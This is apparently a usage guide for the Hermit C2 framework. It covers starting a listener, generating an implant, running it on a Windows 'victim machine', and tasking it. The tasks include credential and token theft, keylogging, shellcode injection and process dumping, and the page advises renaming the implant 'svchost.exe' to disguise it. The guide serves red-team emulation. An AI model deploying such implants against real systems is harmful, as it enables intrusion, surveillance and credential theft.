


# Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.



In the server console, we can show usage with `help` or `help <command>`.

## 2. Start HTTPS Listener

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

This command sets a new listener URL and run it.  
The IP is set from our local interface by default. The port number is randomly generated.  
If we want to specify our own IP/port, add `--url` flag:

```sh title="Hermit C2 Server Console"
Hermit > listener new --url https://127.0.0.1:1234
```

To list all listeners available, run `listeners` command.

## 3. Generate Implant Payload

`payload gen` command generates a new payload such as **implant**, **loader**, **shellcode**.  
The Wizard will start, so follow the instructions to complete the settings.



The implant is saved under `$HOME/.hermit/server/listeners/listener-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with our own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds (10~30 seconds by default), the agent checked in and listed on the C2 server.  
We can check the agent listed with the `agents` command.


Now switch to Agent Mode by specifying the agent ID (e.g. `1`):


## 6. Send Task & Get Result

In Agent Mode, we can send tasks and get results.  
To see what tasks are available, run `?`, `help` or `help <command>` command.  
Currently, the following tasks are available:

```txt title="Hermit C2 Server Console [Agent Mode]"
TASK:
  cat             Read contents of a file.
  cd              Change the working directory.
  connect         Change listener URL to connect.
  cp              Copy a file.
  creds steal     Steal credentials from various resources on the target computer
  dll             Load DLL and inject modules into the specified process
  download        Download a file.
  env ls          List environment variables.
  envs            alias for 'env ls'
  execute         Execute system command.
  group ls        List local groups.
  groups          Alias for 'group ls'
  history         Retrieve information from history files of applications
  ip              Print the network interface information on target computer
  jitter          Set jitter time (seconds) between requests from beacon
  keylog          Keylogging N seconds.
  kill            Terminate the current process.
  killdate        Change killdate (UTC) for the implant beacon.
  ls              List files in a directory.
  migrate         Migrate the implant into another process.
  mkdir           Create a new directory.
  mv              Move a file to a destination location.
  net             Get TCP connections.
  procdump        Dump process memory to a specified output file.
  ps kill         Terminate a process.
  ps ls           List processes.
  pwd             Print the current working directory.
  reg subkeys     Enumerate subkeys for the specified open registry key.
  reg values      Enumerate the specified registry values.
  rm              Remove a file.
  rmdir           Remove a directory.
  rportfwd add    Add settings to reverse port forwarding.
  rportfwd ls     List settings for reverse port forwarding.
  rportfwd rm     Stop and remove listener for reverse port forwarding.
  runas           Execute a program as another user.
  screenshot      Take a screenshot on target computer.
  shellcode       Inject shellcode into the specified process
  sleep           Set sleep time (seconds) between requests from beacon
  token revert    Revert back to the original process token.
  token steal     Steal token from the specified process and impersonate process.
  upload          Upload a file to the target computer.
  user ls         List users.
  users           List all local users.
  whoami          Print the current user information.
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  


To see the tasks waiting for results, run the `tasks` command.  

After a few seconds, if the task is successful, we can see the task results with the `task result` or `loot show` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
# or
Hermit [agent-abcd] > loot show
```

Please try other tasks as well.

## 7. Stop Implant & Quit Agent Mode

After emulation, stop the implant with the `kill` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > kill
```

Then run `exit` command to quit the agent mode.

## 8. Delete Agent

If we want to delete the agent, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > agent delete 1
```

`1` is the agent ID that can be seen by `agents` command.

## 9. Stop/Delete Listener

Also, if we want to stop and delete the listener, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > listener stop 1
Hermit > listener delete 1
```

`1` is the listener ID that can be seen by `listeners` command.